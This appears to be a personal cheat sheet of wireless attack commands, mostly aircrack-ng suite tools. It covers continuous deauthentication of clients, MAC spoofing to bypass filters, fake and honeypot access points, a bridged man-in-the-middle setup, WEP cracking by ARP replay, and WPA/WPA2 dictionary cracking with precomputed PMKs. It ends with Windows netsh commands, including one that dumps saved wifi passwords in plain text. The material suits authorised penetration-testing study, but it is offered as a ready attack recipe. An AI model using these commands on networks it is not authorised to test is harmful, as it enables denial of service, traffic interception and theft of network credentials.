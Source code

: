 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> start the wireless card** 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing

**Check active Access points and the stations/clients connecting to it**

4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**

6. 

		a. Passive way - monitor the network for clients to connect
		b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		
		(send the deauthentication notification packet to the clients)
		aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

		--deauth 0 will continously send deauth packets
		-D disable AP detection

7. Bypassing MAC filters

		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> **Trying a fake authentication using the wireless card when MAC filter is off(open network)
	
		b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication
		
8. Cracking Shared/WEP encyption
	
		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
		b. ifconfig at0 up  ---> Power up the soft interface created
		c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

		a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
		b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
		c. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)

		a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
		b. use aircrack/ cowpatty along with the dictionary
		c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

		a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

		Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs.

		b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
		c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	**With Pyrit**

		d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
		e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

		f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
		
			or

		f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

		With Aircrack - analyze the handshake capture file

		g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

		a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
		b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
		c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

		**wpa_supplication.conf** 

		ctrl_interface=/var/run/wpa_supplicant
		ap_scan=1

		network={
		ssid="Pop"
		proto=WPA
		key_mgmt=WPA-PSK
		pairwise=CCMP TKIP
		group=CCMP TKIP WEP104 WEP40
		psk="boloTarara"
		priority=2
		}

	**command**
	
		wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

		a. netsh wlan show interfaces --> view all wifi interfaces

		b. netsh wlan show drivers  --> extract current wifi driver information

		c. netsh wlan show networks --> view available networks


		d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

		e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

		f. netsh wlan connect name="Korona" interface="Wi-Fi" --> Connect to a wifi network from cmd

		g. netsh wlan export profile name="Korona"  --> Dump the profile in an external file

		h. netsh wlan show profile name="Korona" key=clear  --> Dump wifi password in plain text

		i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    		netsh wlan start hostednetwork







